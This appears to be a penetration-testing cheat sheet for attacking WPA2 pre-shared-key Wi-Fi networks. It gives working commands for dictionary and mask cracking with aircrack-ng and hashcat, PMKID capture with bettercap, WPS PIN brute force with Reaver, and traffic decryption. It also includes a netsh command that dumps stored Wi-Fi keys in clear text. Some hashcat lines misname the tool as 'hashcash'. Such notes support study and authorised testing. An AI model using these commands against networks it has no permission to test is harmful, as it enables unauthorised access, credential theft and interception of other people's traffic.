 # Attacking WPA2 Pre-Shared Key Networks

### Dictionary-Based Attacks

**Cowpatty** - Audits WPA2-PSK for weak PSK

* Slow/time consuming

![](<../../../.gitbook/assets/image (36) (1).png>)

**aircrack-ng** (wpa/wpa2 psk dictionary attack)

```
aircrack-ng -w <wordlist> <pcap filename>
```

![](<../../../.gitbook/assets/image (59) (1) (1).png>)

![](<../../../.gitbook/assets/image (64).png>)

**Hashcat**

*   Requires hccapx file

    * Generated with **cap2hccapx**

    ```
    hashcash -m 16800 -a3 -w3 handshakes.pmkid '?d?d?d?d?d?d?d'
    ```

    ###

#### Hashcat Mask Attack

* Brute force a custom range of PSK values
* Can mix and match static values with brute force character set values
* Default MiFi Password : 8 Hex characters
  * 232 or 168 = 4.2 billion entries / about 90 minutes at 90K PSK/second

![](<../../../.gitbook/assets/image (43) (1) (1).png>)

### PMKID Attack

![](<../../../.gitbook/assets/image (53) (1).png>)

![](<../../../.gitbook/assets/image (42).png>)

```
sudo bettercap -iface wlan0

wlan0 >> wifi.recon on
wlan0 >> wifi.show

wlan0 >> wifi.assoc all

//convert pcap
hcxpcaptool -z handshakes.pmkid handshakes.pcap

//crack pmkid
hashcash -m 16800 -a3 -w3 handshakes.pmkid '?d?d?d?d?d?d?d'
```

### WPS PIN Attack

BruteForce

* WPS check the first 4 bytes, if the first part is wrong, the PIN is rejected.
* Doesn't require capturing pairing session or any interaction with AP
* Last byte is a checksum
  * 11,000 total WPS PINs

Active attack Tool **: Reaver**

```
reaver -i mon0 -b <BSSID MAC> -vv
```

Detecting WPS

* Wireshark filter: **wps.wifi**_**protected**_**setup\_state eq 0x02**

Passive Attack Tool**:** [**reaver-wps-fork-t6x**](https://github.com/t6x/reaver-wps-fork-t6x)****

* Observes DH exchange data
* &#x20;**https://github.com/t6x/reaver-wps-fork-t6x**&#x20;
* Outputs data to be used in **pixiewps (**[**https://github.com/wiire-a/pixiewps**](https://github.com/wiire-a/pixiewps)**)**

### Dump PNL pre-shared key

```
netsh wlan show profiles name='Profile Name' key=clear
```

### Decrypt WPA2 traffic dump

* Capture needs to include 4-way handshake
* You must also know the:
  * pre-shared key
  * SSID
  * this is because the PTK must be generated since it is different for each client

```
airdecap-ng -p <pre-shared key> -e <SSID> <packetdump>.dump
```

### KRACK attack (Key re-installation attack)

{% embed url="https://www.krackattacks.com" %}

* Captures and replaying step 3

### KR00K Attack

* r00kie-kr00kie.py - Automated Kr00k attack or examination of pcap files to see if we ever captured the necessary material for a Kr00k attack.

![](<../../../.gitbook/assets/image (49) (1).png>)

![](<../../../.gitbook/assets/image (74).png>)

![](<../../../.gitbook/assets/image (72) (1).png>)

{% embed url="https://www.welivesecurity.com/wp-content/uploads/2020/02/ESET_Kr00k.pdf" %}
